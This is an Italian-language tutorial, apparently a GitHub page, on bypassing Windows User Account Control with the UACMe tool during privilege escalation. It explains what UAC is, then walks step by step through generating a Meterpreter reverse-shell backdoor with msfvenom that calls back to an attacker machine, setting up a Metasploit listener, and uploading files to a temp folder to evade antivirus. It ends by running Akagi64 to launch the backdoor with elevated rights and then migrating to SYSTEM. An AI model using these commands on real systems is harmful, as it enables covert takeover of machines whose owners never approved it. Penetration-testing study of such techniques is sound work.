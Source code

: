 
# Bypassing UAC with UACMe

## Cos’è l’UAC?

**UAC (User Account Control)** è una funzionalità di sicurezza introdotta con Windows Vista e mantenuta in tutte le versioni successive. Il suo obiettivo è impedire che software non autorizzati (inclusi malware) apportino modifiche critiche al sistema operativo senza il consenso esplicito dell’utente.

Quando un programma richiede privilegi elevati:

- Se l’utente è standard: viene richiesto l’inserimento delle credenziali di un amministratore.
- Se l’utente fa parte del gruppo “Administrators”: viene mostrato un prompt con richiesta di conferma.

Questo comportamento è uno dei principali ostacoli durante la **privilege escalation**, perché anche se l’utente appartiene al gruppo `Administrators`, Windows blocca l’elevazione automatica dei privilegi con un popup che richiede approvazione manuale (click su “Sì”).

## Perché e come si aggira?

Quando un attaccante compromette un account che è *membro del gruppo Administrators* ma non ha ancora privilegi SYSTEM, può trovarsi bloccato da UAC. In questi casi, è necessario trovare un modo per **bypassare UAC** senza interazione dell’utente.

## UACMe – Cos’è e come funziona?

**UACMe** è uno strumento open-source scritto in C, disponibile su <a href="https://github.com/hfiref0x/UACME">GitHub</a>

È una collezione di oltre **70 metodi di bypass UAC** che sfruttano vulnerabilità note, abusi di comandi nativi Windows (come `fodhelper.exe`, `eventvwr.exe`, `computerdefaults.exe`) o meccanismi interni come COM hijacking o DLL injection. Ogni metodo è referenziato, testato su varie versioni di Windows, ed è documentato nel codice.

Il nome del binario principale è `Akagi`, che può essere compilato e poi eseguito sul target.

## Esempio pratico

### Step 1 – Verifica contesto

Dopo aver ottenuto una sessione Meterpreter, verifichiamo se siamo in un contesto privilegiato con:

`getuid` per avere informazioni sul attuale utente <br>
`getprivs` per vedere gli attuali privilegi utente <br>

Se l’utente fa parte del gruppo Administrators ma l’UAC blocca l’elevazione, potremmo sfruttare una delle tecniche di bypass.

Con il comando:

`net user` Per vedere gli utenti presenti <br>
`net localgroup administrators` Per vedere i gruppi presenti e i partecipanti <br>

vediamo gli utenti e il gruppo di appartenenza. Se un utente non è SYSTEM ma è nel gruppo admin, possiamo agire.

### Step 2 – Generazione del payload

Per ottenere una nuova sessione privilegiata, generiamo un payload con:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f exe > backdoor.exe`

- `-p windows/meterpreter/reverse_tcp`: imposta il tipo di payload, in questo caso Meterpreter con connessione inversa TCP
- `LHOST`: è l’indirizzo IP della tua macchina Kali
- `LPORT`: è la porta su cui ascoltare
- `-f exe`: formato del file da generare, in questo caso eseguibile Windows
- `> backdoor.exe`: salva il payload nel file `backdoor.exe`

### Step 3 – Preparazione listener

Avvia un listener con Metasploit:

`use multi/handler` <br>
`set payload windows/meterpreter/reverse_tcp` <br>
`set LHOST <KaliIP>` <br>
`set LPORT <Port>` <br>
`run` <br>

`multi/handler` è un modulo generico per ricevere connessioni da payload creati con `msfvenom`. Serve a ricevere la connessione inversa dalla backdoor.

### Step 4 – Trasferimento dei file sul target

Dalla sessione Meterpreter attiva sul target:

`cd C:\` <br>
`mkdir Temp` <br>
`cd Temp` <br>
`upload backdoor.exe` <br>
`upload Akagi64.exe` <br>

Usiamo `Temp` invece della home per evitare alert nei controlli automatizzati o antivirus.

### Step 5 – Esecuzione bypass

Dalla shell del target su cui vogliamo effettuare il Privilege Escalation:

`dir` <br>
`./Akagi64.exe 23 C:\Temp\backdoor.exe` <br>

Qui `23` è il numero del metodo di bypass UAC integrato in UACMe. Puoi provare altri metodi se questo fallisce.
I metodi possono essere visualizzati nella pagina principale della Repository di GitHub nel file README.

La backdoor verrà eseguita con privilegi elevati, senza popup UAC.
Dopo l'esecuzione di questo comando, verrá aperta una shell sulla sessione di meterpeter che abbiamo messo in ascolto precedentemente. 

### Step 6 – Verifica privilegi

Nella nuova sessione Meterpreter ricevuta sulla macchina attaccante:

`getuid` <br>
`getprivs` <br>
`ps` <br>

Notiamo che con `getprivs` otterremo una lista di privilegi più lunga rispetto a quella precedente. 
Puoi anche migrare in un processo di sistema per ottenere privilegi SYSTEM. Se vedi `NT AUTHORITY\SYSTEM`, il bypass è riuscito.

---
